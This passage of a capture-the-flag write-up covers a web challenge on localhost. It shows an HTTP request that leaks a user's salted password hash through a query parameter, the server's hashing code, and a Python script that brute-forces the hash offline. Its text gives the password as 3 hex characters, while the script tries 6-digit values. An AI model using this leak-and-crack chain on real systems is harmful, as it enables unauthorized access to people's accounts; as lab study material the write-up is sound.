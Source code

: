 ```http
GET /api/users/?group=password HTTP/1.1
Host: localhost:5000
Cookie: session=.eJwdzjkOwjAQAMC_uKaw197D-Uy0lwVtQirE34lopp5P2deR57Ns7-PKR9lfUbYSQxb6cGhjsZL7RAO7XRy4atCC2qmq25SlpMxJVaRB1EVM1kTFTLk1xhCpPNBnV2FNRJmeZB4WCMxgXXOQ1WBPn-QG4OWOXGce_03__gCj6C_9.ZzmXGg.BwNOsFcpqkrGWC_VjwHDbgONrSQ


```

Response data:

```json
{"users":[...],"4dd34ac9.e0c9e1bbd6c30c96dd3b6d55ecba839c67afdc424b1fec20336db000230cc447":[{"id":2,"is_admin":false,"score":500,"username":"player"}],[...]]}}
```

Nice! We successfully leaked `player`'s password hash!

Again, similar to the challenges' flag, all passwords are hashed in the exact same way:

```python
@event.listens_for(User.password, 'set', retval=True)
def hash_user_password(target, value, oldvalue, initiator):
    if value != oldvalue:
        return compute_hash(value)
    return value
```

Since now we have `player`'s password hash, we can **brute force it *offline***. This is doable because `player`'s password is only 3 hex characters long, which is brute force-able.

To do so, we can use the following Python script:

```python
import hashlib

def compute_hash(password, salt=None):
    return salt + '.' + hashlib.sha256(f'{salt}/{password}'.encode()).hexdigest()

def bruteForcePassword(targetPassword):
    for i in range(0, 0xffffff + 1):
        password = hex(i).replace('0x', '').rjust(6, '0')
        print(f'[*] Trying password: {password}', end='\r')
        salt, digest = targetPassword.split('.')
        hash = compute_hash(password, salt)

        if hash != targetPassword:
            continue

        print(f'\n[+] Found correct password: {password}')
        return password

def main():
    bruteForcePassword('4dd34ac9.e0c9e1bbd6c30c96dd3b6d55ecba839c67afdc424b1fec20336db000230cc447')

if __name__ == '__main__':
    main()
```

